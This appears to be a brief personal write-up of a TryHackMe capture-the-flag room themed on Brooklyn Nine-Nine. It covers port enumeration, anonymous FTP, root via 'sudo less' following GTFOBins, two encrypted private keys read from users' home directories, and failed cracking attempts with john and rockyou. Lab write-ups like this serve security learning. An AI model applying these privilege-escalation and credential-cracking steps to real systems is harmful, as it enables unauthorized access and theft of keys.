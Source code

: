# what I learned
- nothing...
# enumerating
- 21/tcp open  ftp
```
ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17 23:17 note_to_jake.txt
```
the file contains
```console
bibo318@parrot:~/THM/B99$ cat note_to_jake.txt 
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nin nine
```
- 22/tcp open  ssh
- 80/tcp open  http
  - Apache/2.4.29 (Ubuntu)
  - a stegano picture?
# foothold
```console
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```
https://gtfobins.github.io/gtfobins/less/

```console
jake@brookly_nine_nine:~$ less /home/amy/.
./            .bash_logout  .cache/       .profile      
../           .bashrc       .gnupg/       .ssh/         
jake@brookly_nine_nine:~$ less /home/holt/
.bash_history  .bashrc        .gnupg/        .profile       nano.save      
.bash_logout   .cache/        .local/        .ssh/          user.txt       
jake@brookly_nine_nine:~$ less /home/holt/user.txt
```
* amy
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,8A45EF5CE95F44B523FBD6AEEAD2B9E6

//MOmD5ttJ6rTXqLiBtvOmCcXLWmgexGwQZc2sy6P9mVlh9nUD2g2gN/SwyOIOzo
pWBjAatk7qpqwbsGDstQsKErCDGCH/qjF49zG1meMNbzxFQAT5vOxGM/0oYJwD9F
BKeRcOqY0vKjiJz0Wf9ZA3+CF3xdjNvVhneGe3BE1jEX2J3+sGZ0qiNLkYn6Mw+h
p0TrrdkFQiDR5X+rbfL+EgFYCwOanABkK+FzptbXB0ABte7L+PSICvZKsCn/yo6z
fxraAZ0nJejWQEYEH99o7T7uHkR+CZSD8gWPBsaP8pfPJSeKR9LzXG3MOWGc+5/p
gZBPQI5EwbUaWtnwEKqzTqT1G/+iYps8ExqUGj9lZWPnwNAEnWXiKJfTZF2lJyqz
-----END RSA PRIVATE KEY-----
```
**jake1**

* holt
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,7FEB01DFD04064BFFC03CBB293CEF0F9
8rta3aQd8iUsjaUJ7S+j4wUbMhIGhWaSFOwuyDvKOfTEuFpNSv5DkA/p6D7qcBIE
eApPx3ASu2agU8IRvq0Z6IuWw1rvprmiXyBWCQ9NBOjIo4dnL6cLE+UmVmQThxst
hnxQNnTVZlFLdM5mJjNyzCyfsdvyu5QxsDfEtTCLBH3P8ittfeSWv1WlF0b6nkUO
-----END RSA PRIVATE KEY-----
```
**kevin**

```console
bibo318@parrot:~/THM/B99$ nano holt.txt
bibo318@parrot:~/THM/B99$ sudo /usr/share/john/ssh2john.py holt.txt > holt-for-john.txt
bibo318@parrot:~/THM/B99$ sudo /usr/share/john/ssh2john.py amy.txt > amy-for-john.txt
bibo318@kali:~# john /home/kali/THM/B99/holt-for-john.txt -wordlist=/usr/share/wordlists/rockyou.txt # holt
bibo318@kali:~# john /home/kali/THM/B99/amy-for-john.txt -wordlist=/usr/share/wordlists/rockyou.txt # amy
bibo318@parrot:~/THM/B99$ openssl rsa -in amy.txt -out amy_id_rsa
bibo318@parrot:~/THM/B99$ openssl rsa -in holt.txt -out holt_id_rsa
```
but fuq... didnt works, 

# root
```console
jake@brookly_nine_nine:~$ less /root/root.txt
```

# PS 
- There are two main intended ways to root the box.
  - I only solved 1